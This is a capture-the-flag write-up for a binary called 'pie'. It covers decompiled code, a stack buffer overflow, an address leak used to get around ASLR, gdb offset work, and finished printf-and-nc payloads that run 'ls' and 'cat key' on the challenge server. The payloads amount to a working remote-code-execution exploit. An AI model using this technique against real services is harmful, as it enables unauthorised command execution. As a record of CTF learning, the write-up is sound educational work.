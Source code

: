 pie
===

Background
----------
The goal was to retrieve the flag stored on the server

Tools used
----------
* IDA Pro
* `gdb`

Process
-------
Opening up the executable in IDA, I found that the function `handle` handled network connections, which I entered and got hexrays to decompile to:
````c
int __cdecl handle(int fd)
{
  int buf; // [sp+10h] [bp-18h]@1
  int v3; // [sp+14h] [bp-14h]@1
  int v4; // [sp+18h] [bp-10h]@1
  int v5; // [sp+1Ch] [bp-Ch]@1

  buf = 0;
  v3 = 0;
  v4 = 0;
  v5 = 0;
  sendstr(fd, "Enter your name: ");
  my_recv(fd, &buf);
  sendstr(fd, "Hello ");
  sendstr(fd, &buf);
  sendstr(fd, "!\n");
  return 0;
}
````

`my_recv` looked likely to be exploitable for this simple code, so I looked inside that:
````c
ssize_t __cdecl my_recv(int fd, void *buf)
{
  ssize_t result; // eax@3

  while ( 1 )
  {
    result = recv(fd, buf, 1u, 0);
    if ( result <= 0 )
      break;
    result = *(_BYTE *)buf;
    if ( (_BYTE)result == 10 )
      break;
    buf = (char *)buf + 1;
  }
  return result;
}
````

Wonderful, this function keeps on reading in input until it encounters a newline or EOF, obviously having a buffer overflow vulnerability.

Because DEP was turned on, I needed to find a vulnerable function to use, and conveniently, function `sistem` at address offset +0x963 contained this:
````c
int __cdecl sistem(const char *command)
{
  return system(command);
}
````

Because ASLR was turned on and this executable was relocatable, I needed to find both the stack address to use to pass a string to `sistem` and the executable base address to call `sistem`. I looked to the function `handle`'s stack:
````
-00000018 buf             db 24 dup(?)
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
````
From this, I now knew to put exactly 24 characters as input to completely fill `buf` and taking out it's terminating `NULL`, revealing both an address of the stack, the `ebp` save `s`; and of the exectuable, the return address `r`.
````
$ printf 'aaaaaaaaaaaaaaaaaaaaaaaa' | nc 54.252.230.126 2345 | hexdump -C
00000000  45 6e 74 65 72 20 79 6f  75 72 20 6e 61 6d 65 3a  |Enter your name:|
00000010  20 48 65 6c 6c 6f 20 61  61 61 61 61 61 61 61 61  | Hello aaaaaaaaa|
00000020  61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 f8  |aaaaaaaaaaaaaaa.|
00000030  bb e1 bf d3 9c 7f b7 04  21 0a                    |........!.|
````
This shows that the stack was located around 0xbfe1bbf8 and the executable was located around 0xb77f9cd3

I know that `handle` returns to `main` at offset +0xcd3, so calculating the difference in offsets told me that `sistem` was located at 0xb77f9963 on the server.

To find the stack address I required, which was the address four bytes following the address containing the return address so I could pass a string to `sistem`, I needed to do some live debugging to find out the difference between the stack address I aquired and the address I needed. This following `gdb` session sums it up:
````
$ gdb ./pie
<snip>
(gdb) set follow-fork-mode child
(gdb) break handle
Breakpoint 1 at 0x9d8
(gdb) r
Starting program: /path/to/pie
Listening on 0.0.0.0:2345
[New process 9925]
spawned child with pid = 9925
[Switching to process 9925]

Breakpoint 1, 0x565559d8 in handle ()
(gdb) disas handle
Dump of assembler code for function handle:
   0x565559d4 <+0>:	push   %ebp
   0x565559d5 <+1>:	mov    %esp,%ebp
   0x565559d7 <+3>:	push   %ebx
=> 0x565559d8 <+4>:	sub    $0x24,%esp
   0x565559db <+7>:	call   0x56555907 <__i686.get_pc_thunk.bx>
   0x565559e0 <+12>:	add    $0x2614,%ebx
   0x565559e6 <+18>:	lea    -0x18(%ebp),%eax
<snip>
(gdb) x/10xw $esp
0xffffd0d4:	0x56557ff4	0xffffd148	0x56555cd3	0x00000008
0xffffd0e4:	0x000003e9	0xffffd12c	0xffffd130	0x00000004
0xffffd0f4:	0x0000002f	0xffffd14c
````
The stack address I would have been shown was 0xffffd148 while the stack address I needed was 0xffffd0e4. This gives a difference between the two of -0x64.

Now I have the required information, I prepare my input:
````
aaaaaaaaaaaaaaaaaaaaaaaaaaaa ; 28 bytes of padding to the return address
\x63\x99\x7f\xb7 ; Address of function sistem at 0xb77f9963
aaaa ; Padding for fake sistem return address
\x98\xbb\xe1\xbf ; Address of following byte as the string to pass (0xbfe1bbf8 - 0x64 + 4) = 0xbfe1bb98
ls >&4\x00 ; Command to run with terminating NULL. File descriptor 4 is always the one corresponding to the network socket.
````
````
$ printf 'aaaaaaaaaaaaaaaaaaaaaaaaaaaa\x63\x99\x7f\xb7aaaa\x98\xbb\xe1\xbfls >&4\x00' | nc 54.252.230.126 2345
Enter your name: key
pie
$ printf 'aaaaaaaaaaaaaaaaaaaaaaaaaaaa\x63\x99\x7f\xb7aaaa\x98\xbb\xe1\xbfcat key >&4\x00' | nc 54.252.230.126 2345
Enter your name: 12yhEzKPaC7wWHAAtBjsUY3K6H3woG3LGw
````
